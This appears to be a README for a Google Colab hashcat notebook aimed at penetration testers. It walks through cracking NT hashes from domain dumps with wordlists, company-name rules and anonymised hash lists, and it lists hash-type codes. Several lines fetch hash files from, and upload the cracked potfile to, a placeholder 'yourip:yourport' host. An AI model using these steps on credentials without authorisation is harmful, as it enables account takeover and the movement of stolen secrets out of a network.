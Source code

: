 # Google colab hash cracking

<p align="center">
  <a href="https://colab.research.google.com/github/ShutdownRepo/google-colab-hashcat/blob/main/google_colab_hashcat.ipynb" target="_parent"><img src="https://colab.research.google.com/assets/colab-badge.svg" alt="Open In Colab"/></a>
  <a href="https://twitter.com/intent/follow?screen_name=_nwodtuhs" title="Follow"><img src="https://img.shields.io/twitter/follow/_nwodtuhs?label=Shutdown&style=social"></a>
</p>

## Workflow example 1 (simple wordlist)

This Google colab can be used for hash cracking with wordlists and rules.
Here is an example of that can be followed to crack NT hashes.

1. run the preparation script below
2. upload your hashes list on the colab `!wget http://yourip:yourport/yourfile`
3. run a hashcat command like this to start cracking `!hashcat --status --hash-type 1000 --attack-mode 0 --username DOMAIN.LOCAL.ntds wordlists/rockyou.txt`

## Workflow example 2 (wordlist + rules)

This is an example that is especially useful for internal engagements where users often use a transformation of the corp name as password (i.e. Corp2016!).

1. create a wordlist based on some names that are currently used in the company
```
company
cpmny
corp
management
admin
```
2. upload your hashes list on the colab `!wget http://yourip:yourport/yourfile`
3. run the hashcat command `!hashcat --status --hash-type 1000 --attack-mode 0 --username --rules-file rules/d3adhob0.rule DOMAIN.LOCAL.ntds company.lst`

## Workflow example 3 (OPSEC: crack anonymized hashes)

1. run the preparation script below
2. on your local machine, run [hashonymize](https://github.com/ShutdownRepo/hashonymize) to anonymize your hash lists
3. upload your anon hashes list on the colab `!wget http://yourip:yourport/yourfile`
4. run a hashcat command like this to start cracking `!hashcat --status --hash-type 1000 --attack-mode 0 --username DOMAIN.LOCAL.ntds wordlists/rockyou.txt`
5. recover the .pot file from the Google Colab `!curl --upload-file ~/.hashcat/hashcat.potfile http://yourip:yourport/`
6. on your local machine, run the following hashcat command with the recovered potfile to match real usernames with cracked password `hashcat --potfile-path hashcat.potfile --hash-type 1000 --username DOMAIN.LOCAL.ntds wordlists/rockyou.txt`

hashcat -m 1000 --potfile-path ntds.cracked ntds.tocrack --show --username

## Short hashcat manual

Here are some useful options
```
--status            Enable automatic update of the status screen
--attack-mode       Attack-mode, see references below
--hash-type         Hash-type, see references below
--username          Enable ignoring of usernames in hashfile 
--rules-file        Multiple rules applied to each word from wordlists
--potfile-path      Specific path to potfile
```

Here are some of the most used attack modes for the `--attack-mode` option
```
0     Wordlist (with or without rules)
3     Pure bruteforce
```

Here are some of the most used hash types for the `--hash-type` option
```
1000     NTLM (actually it's for NT hashes)
3000     LM
5500     Net-NTLMv1 (actually, it should be called NTLMv1)
5600     Net-NTLMv2 (actually, it should be called NTLMv2)
13100    Kerberoast
18200    ASREProast
22000    WPA-PBKDF2-PMKID+EAPOL
16800    WPA-PMKID-PBKDF2
0        md5
100      sha1
1400     sha2-256
1700     sha2-512
```

# Credits
Credits go to mxrch for his original project called [penglab](https://github.com/mxrch/penglab)

